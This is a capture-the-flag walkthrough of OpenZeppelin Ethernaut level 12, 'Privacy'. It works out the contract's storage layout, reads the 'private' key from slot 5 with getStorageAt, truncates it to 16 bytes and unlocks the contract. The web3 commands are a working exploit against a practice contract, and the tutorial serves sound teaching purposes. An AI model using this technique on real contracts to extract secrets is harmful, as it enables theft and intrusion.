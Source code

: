 # Level 12: Privacy

This is the level 12 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [Fixed size byte arrays](https://docs.soliditylang.org/en/v0.8.7/types.html#fixed-size-byte-arrays)
- [Layout of State Variables](https://docs.soliditylang.org/en/v0.8.7/internals/layout_in_storage.html#) in a Solidity contract
- [Reading storage](https://web3js.readthedocs.io/en/v1.5.2/web3-eth.html#getstorageat) at a slot

## Hack
Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

`player` has to set `locked` state variable to `false`.

This is similar to level 8: Vault where any state variable (irrespective of whether it is `private`) can be read given it's slot number.

`unlock` uses the third entry (index 2) of `data` which is a `bytes32` array. Let's determined `data`'s third entry's slot number (each slot can accommodate at most 32 bytes) according to storage rules:

- `locked` is 1 byte `bool` in slot 0
- `ID` is a 32 byte `uint256`. It is 1 byte extra big to be inserted in slot 0. So it goes in & totally fills slot 1
- `flattening` - a 1 byte `uint8`, `denomination` - a 1 byte `uint8` and `awkwardness` - a 2 byte `uint16` totals 4 bytes. So, all three of these go into slot 2
- Array data always start a new slot, so `data` starts from slot 3. Since it is `bytes32` array each value takes 32 bytes. Hence value at index 0 is stored in slot 3, index 1 is stored in slot 4 and index 2 value goes into slot 5

Alright so key is in slot 5 (index 2 / third entry). Read it.

```javascript
key = await web3.eth.getStorageAt(contract.address, 5)

// Output: '0x5dd89f7b81030395311dd63330c747fe293140d92dbe7eee1df2a8c233ef8d6d'
```

This `key` is 32 byte. But `require` check in `unlock` converts the `data[2]` 32 byte value to a `byte16` before matching.

`byte16(data[2])` will truncate the last 16 bytes of `data[2]` and return only the first 16 bytes.

Accordingly convert `key` to a 16 byte hex (with prefix - `0x`):
```javascript
key = key.slice(0, 34)

// Output: 0x5dd89f7b81030395311dd63330c747fe
```

Call `unlock` with `key`:

```javascript
await contract.unlock(key)
```

Unlocked! Verify by:
```javascript
await contract.locked()

// Output: false
```

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

